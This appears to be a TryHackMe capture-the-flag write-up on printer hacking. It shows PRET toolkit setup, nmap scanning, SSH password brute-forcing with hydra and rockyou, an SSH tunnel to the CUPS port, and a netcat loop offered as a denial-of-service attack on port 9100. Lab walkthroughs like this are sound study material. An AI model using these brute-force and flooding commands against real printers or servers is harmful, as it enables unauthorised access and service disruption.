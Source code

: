 # [Printer Hacking 101](https://tryhackme.com/room/printerhacking101)

> Learn about (and get hands on with) printer hacking and understand the basics of IPP.

## Prepare

install this toolkit to exploit local network printer

```
git clone https://github.com/RUB-NDS/PRET && cd PRET
python2 -m pip install colorama pysnmP
```

automatic printer discovery

```
python pret.py
```

## Scanning

scan the machine

```
nmap -sS -T4 10.10.103.120
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/695be9e7-ea0c-4688-af66-96d885f85631)

i found 2 services are ipp and ssh

## HTTP

CUPS open source print server uses IPP protocol for print management

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ceb437d5-2046-4d3a-b664-2e1dbef73359)

In tab printers, you can see list of printers

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bed88e27-a1f8-47a8-a1f6-7ed5f181e2b5)

click on that printer, you can see size of a test sheet

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/db0e3d0e-d134-4f29-87a2-65fa402a2f37)

## Exploitation

brute force the password using nmap to know username `printer` and hydra to `password`

```
nmap 10.10.103.120 -p 22 --script ssh-brute --script-args userdb=user.txt
hydra -l printer -P /usr/share/wordlists/rockyou.txt ssh://10.10.103.120
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/60aebfaf-7e93-46b6-8034-56365364c24f)

then connect ssh to machine through a tunnel

```
ssh printer@10.10.230.19 -T -L 3631:localhost:631
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/04b2a52d-bb25-4e15-99e8-8f485d0732bd)

now you can using cheatsheet to do a ddos attack or whatever you want

```
while true; do nc printer 9100; done
```
